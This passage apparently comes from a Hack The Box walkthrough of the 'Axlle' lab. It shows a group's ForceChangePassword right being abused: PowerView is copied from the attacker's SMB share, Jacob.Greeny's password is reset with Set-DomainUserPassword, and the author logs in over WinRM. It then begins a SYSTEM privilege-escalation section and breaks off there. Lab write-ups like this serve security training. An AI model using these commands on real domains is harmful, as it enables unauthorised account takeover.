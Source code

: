 ### ForceChangePassword

> The members of the group WEB DEVS@AXLLE.HTB have the capability to change the user JACOB.GREENY@AXLLE.HTB's password without knowing that user's current password.

Let's first transfer powerview.ps1:

`copy \\10.10.14.23\share\PowerView.ps1`

Now we will change the password for user jacob to anything we want:

```
$pass = ConvertTo-SecureString 'SuperSecuredPassword123!' -AsPlainText -Force
Set-DomainUserPassword -Identity Jacob.Greeny -AccountPassword $pass
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-15.png)

We can winrm in as jacob using the changed password:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-16.png)

## Privesc: jacob to administrator

Inside App Development folder, there is a README.md file:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-17.png)

README.md file is saying standalonerunner.exe file is being ran as a SYSTEM with automation:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-18.png)
